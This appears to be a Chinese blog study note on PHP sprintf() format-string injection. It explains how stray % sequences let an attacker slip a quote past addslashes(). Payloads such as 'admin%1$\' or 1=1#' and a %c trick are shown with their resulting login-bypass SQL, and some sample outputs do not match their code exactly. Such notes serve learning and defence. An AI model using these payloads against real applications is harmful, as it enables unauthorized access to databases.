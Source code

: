 ```yaml
---
layout: post
title: sprintf()格式化字符串注入
data: 2019-11-23
categories: Notes
tags: 
 - Injection
description:
excerpt_separator: ""
---
```


{% raw %}

# sprintf()函数

和其它语言的格式化字符串函数类似，sprintf()的语法为：

```
sprintf ( string $format [, mixed $... ] ) : string
```

例如：

```php
<?php
    echo sprintf("select * from user where username='%s'\n", "admin");
?>
```

运行结果：

````
select * from user where username=admin
````

# 漏洞原理

在PHP的底层代码中，会对`$format`中`%`符号后的第一个字符做一个switch判断，以实现格式化输入功能。但这个判断仅15个case，换言之在`%`符号之后且超出了判断范围的字符都会被“吃掉”。

这样的话，如果我们上传的Payload被addslashes()处理过，就可以利用这个特性使被转义的字符逃逸。

# 利用方式

## 使用%

直接在危险字符前加入`%`即可。

不过需要主要的是如果当前字符串中`%`符号的数目大于sprintf()函数实际提供的参数，就会引起报错：

```php
<?php
    echo sprintf("select * from user where username='admin%\' or 1=1#' and password='%s'\n" , "pass");
?>
```

运行结果：

```
PHP Warning:  sprintf(): Too few arguments in /home/glyuan/foo.php on line 2
```

## 使用%1$

在占位符中，`%n$s`可以选择特定位置的参数：

```php
<?php
    echo sprintf("select * from user where username='%2\$s' and password='%1\$s'\n", "pass", "admin");
?>
```

运行结果：

```
select * from user where username='admin' and password='pass'
```

所以用`%1$`代替`%`可以规避之前的报错：

```php
<?php
    echo sprintf("select * from user where username='admin%1\$\' or 1=1#' and password='%s'\n" , "pass");
?>
```

运行结果：

```
select * from user where username='admin' Or 1=1#' and password='pass'
```

## 使用%c

`%c`是单个字符的占位符，接受一个整数，并根据ASCII码转化为字符，可以利用这个特性传入单引号等危险字符，以绕过过滤：

```php
<?php
    $username = "admin%1\$c or 1=1#";
	$password = "39";
	$sql = "select * from user where username='$username' and password='%s'\n";
	echo sprintf($sql, $password);
?>
```

运行结果：

```
select * from user where username='admin' or 1=1#' and password='39'
```

{% endraw %}